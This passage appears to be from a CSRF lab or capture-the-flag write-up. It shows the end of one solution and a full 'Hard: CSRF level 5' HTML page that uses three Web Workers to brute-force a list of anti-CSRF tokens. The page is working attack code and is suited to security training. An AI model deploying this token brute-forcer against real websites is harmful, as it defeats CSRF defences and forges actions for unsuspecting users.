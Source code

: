 ```js
         tokens = tokens.filter(Boolean); // Remove empty lines

         // Brute Loop
         bruteLoop(tokens);
      </script>
   </body>
</html>

```

### Hard: CSRF level 5
```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
         # add the tokens
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>

```
